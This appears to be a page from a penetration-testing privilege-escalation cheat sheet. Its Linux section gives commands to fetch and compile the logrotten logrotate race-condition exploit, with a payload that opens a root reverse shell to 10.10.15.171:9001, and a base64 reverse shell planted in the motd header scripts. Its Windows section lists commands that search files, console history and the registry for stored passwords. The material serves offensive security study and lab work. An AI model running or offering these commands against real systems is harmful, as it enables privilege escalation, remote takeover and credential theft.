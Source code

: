 

### logrotate

* [https://github.com/whotwagner/logrotten/blob/master/logrotten.c](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [https://popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)



### motd

`/etc/update-motd.d/`:

```
$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```

* [https://www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)




## Windows



### Registry & Filesystem

```
PS > gc $env:appdata\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
PS > cmd /c dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
PS > cmd /c where /R C:\ *.ini
PS > cmd /c 'cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt'
PS > reg query HKLM /f "password" /t REG_SZ /s
PS > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AltDefaultUserName AltDefaultDomainName AltDefaultPassword LastUsedUsername"
Or
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | select DefaultPassword
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" | findstr /i proxy
```
